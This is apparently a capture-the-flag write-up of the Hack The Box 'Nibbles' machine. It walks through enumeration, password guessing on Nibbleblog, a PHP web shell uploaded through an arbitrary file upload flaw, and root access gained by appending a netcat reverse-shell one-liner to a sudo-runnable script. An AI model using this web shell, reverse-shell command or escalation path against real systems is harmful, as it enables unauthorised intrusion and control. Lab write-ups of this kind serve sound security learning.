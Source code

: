 ## Target 10.129.221.202
+ Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)
	+ nmap -sV --script=http-enum
	+ Apache 2.4.18
+ Gain a foothold on the target and submit the user.txt flag


![image](https://github.com/user-attachments/assets/6fc2b17e-a7d3-483c-a29f-7c77e168601b)

Located in the source file, we can see that there is a directory named nibble blog.
To further enumerate I am going to use GoBuster.
So far we have some decent sub directories
```
/.hta                 (Status: 403) [Size: 303]
/.htaccess            (Status: 403) [Size: 308]
/.htpasswd            (Status: 403) [Size: 308]
/admin                (Status: 301) [Size: 325] [--> http://10.129.253.92/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 327] [--> http://10.129.253.92/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 329] [--> http://10.129.253.92/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 327] [--> http://10.129.253.92/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 326] [--> http://10.129.253.92/nibbleblog/themes/]

```
- Since this has an admin.php page there will be a README file.
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com

```
This version of nibbleblog is vulnerable to Arbitrary File upload
In the contents/private/ directory we find a users.xml, which confirms the admin login is admin
```
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1514544131</session_date>
</user>
```
After bashing my head for a while, the next step came in the form of guessing Admin credentials as the password was the name of the blog "nibbles"

This version of Nibbleblog 4.0.3 is vulnerable to Arbitrary File Upload CVE-2015-6967
![image](https://github.com/user-attachments/assets/da3862b2-0f6b-486b-a7f4-7839b3e2eb27)

We can use this my image tab to upload a malicious file.
![image](https://github.com/user-attachments/assets/4c80c009-437f-4d06-b284-76a4f55da29e)


![image](https://github.com/user-attachments/assets/64b1797b-a36a-4fa7-80d3-ab8d6cb7e0d3)

- It seems our file may have been uploaded
  
![image](https://github.com/user-attachments/assets/2c62875b-37c4-4f09-960b-c4ee67566eae)

- So lets navigate back to content to find out
![image](https://github.com/user-attachments/assets/32aa82b7-ed11-4593-b793-4be5b6bd17b9)

- Which we see our file is now in the my_image directory
```
┌──(kali㉿kali)-[~/Downloads]
└─$ curl http://10.129.253.92/nibbleblog/content/private/plugins/my_image/image.php
</php system($_REQUEST["cmd"]); ?>

```
We know it executes the file. Now we just need to find a file to give it.
We can find a bash one liner in PHP

![image](https://github.com/user-attachments/assets/4a3138d1-560f-4246-b5a5-43b5e3318130)

Setup a listener
```
nc -lvnp 9443
```

python not found but python3 is 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

In the users zip file it has a writable script file monitor.sh
```
gmdoggo@htb[/htb]$ sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -

```
While we take a look at that we can make up a http server for transferring a enum script over

Once the file is transferred we can send it over and run it (After allowing it execute privs.)

```
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```

We can pwn this monitor.sh file by adding the same one-liner reverse shell to connect back with root

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.189 8443 >/tmp/f' | tee -a monitor.sh
```

- If we cat the monitor.sh file, we will see the contents appended to the end. It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption.
- We can than utilize the privledge over the file to run it
